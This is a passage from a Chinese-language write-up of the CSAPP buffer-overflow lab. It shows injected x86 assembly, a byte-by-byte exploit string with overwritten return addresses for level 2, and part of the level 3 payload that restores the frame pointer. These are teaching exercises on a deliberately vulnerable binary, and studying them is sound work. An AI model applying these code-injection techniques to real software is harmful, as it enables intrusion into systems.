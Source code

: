 发现代码中判断了全局变量的值是否为 `cookie`，而全局变量不存在于栈中，无法通过缓冲区溢出来覆写它的值，只能通过注入代码来实现。所以需要在字符串中构造一个函数，先通过 `getbuf` 函数返回至构造的代码，在构造的代码中返回至 `bang` 函数。

首先设计汇编代码：

```x86asm
mov $0x23a81b97,%eax
mov $0x0804d10c,%ecx
mov %eax,(%ecx)
ret
```

将 `cookie` 存入 `eax` 寄存器，再将全局变量的地址存入 `ecx` 寄存器，通过间接寻址来更改其值然后返回。

使用 `as` 命令编译成 `.o` 文件然后使用 `objdump` 命令获得相应的二进制编码，之后构造字符串：

```
/* my function 13 Bytes */
b8 97 1b a8 23 /* mov $0x23a81b97,%eax */
b9 0c d1 04 08 /* mov $0x0804d10c,%ecx */
89 01          /* mov %eax,(%ecx) */
c3             /* ret */

/* spaces 31 Bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00

/* return address to my function 4 Bytes */
58 2f 68 55

/* return address to bang 4 Bytes */
52 8d 04 08
```

运行程序，成功通过：

![][level2]

## level3 Dynamite

本题不再要求返回至其他的函数，而是要求返回至应当返回的地方（`test`中的下一条指令），但是要求返回至更改为 `cookie`，依旧需要注入代码来实现。同时 `test` 中对栈帧进行了检查，所以在返回至 `test` 时需要还原 `ebp` 寄存器的值。

在 `gdb` 中找到需要还原的值：

![][level3-1]

设计如下汇编代码：

```x86asm
push $0x08048e50        # set return address
push $0x55682fb0        # restore ebp
mov $0x23a81b97,%eax    # return value (cookie)
leave
ret
```


[level0]: http://static.wilfredshen.cn/images/CSAPP-buflab/level0.png
[level1]: http://static.wilfredshen.cn/images/CSAPP-buflab/level1.png
[level2]: http://static.wilfredshen.cn/images/CSAPP-buflab/level2.png
[level3-1]: http://static.wilfredshen.cn/images/CSAPP-buflab/level3-1.png
[level3-2]: http://static.wilfredshen.cn/images/CSAPP-buflab/level3-2.png
[level4]: http://static.wilfredshen.cn/images/CSAPP-buflab/level4.png
